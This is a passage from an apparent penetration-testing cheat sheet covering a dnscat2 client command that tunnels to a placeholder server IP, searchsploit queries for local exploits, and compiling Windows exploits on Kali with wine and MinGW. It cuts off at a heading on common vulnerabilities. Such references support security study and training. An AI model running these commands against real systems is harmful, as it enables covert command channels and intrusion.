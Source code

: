 Target Machine:

https://downloads.skullsecurity.org/dnscat2/ https://github.com/lukebaggett/dnscat2-powershell/

```
dnscat --host <dnscat server_ip>
```

### BOF / Exploit <a href="#bof--exploit" id="bof--exploit"></a>

### Exploit Research <a href="#exploit-research" id="exploit-research"></a>

Find exploits for enumerated hosts / services.

#### Searching for Exploits <a href="#searching-for-exploits" id="searching-for-exploits"></a>

Install local copy of exploit-db:

```
 searchsploit –u
 searchsploit apache 2.2
 searchsploit "Linux Kernel"
 searchsploit linux 2.6 | grep -i ubuntu | grep local
```

#### Compiling Windows Exploits on Kali <a href="#compiling-windows-exploits-on-kali" id="compiling-windows-exploits-on-kali"></a>

```
  wget -O mingw-get-setup.exe http://sourceforge.net/projects/mingw/files/Installer/mingw-get-setup.exe/download
  wine mingw-get-setup.exe
  select mingw32-base
  cd /root/.wine/drive_c/windows
  wget http://gojhonny.com/misc/mingw_bin.zip && unzip mingw_bin.zip
  cd /root/.wine/drive_c/MinGW/bin
  wine gcc -o ability.exe /tmp/exploit.c -lwsock32
  wine ability.exe  
```

#### Cross Compiling Exploits <a href="#cross-compiling-exploits" id="cross-compiling-exploits"></a>

```
gcc -m32 -o output32 hello.c (32 bit)
gcc -m64 -o output hello.c (64 bit)
```

#### Exploiting Common Vulnerabilities <a href="#exploiting-common-vulnerabilities" id="exploiting-common-vulnerabilities"></a>
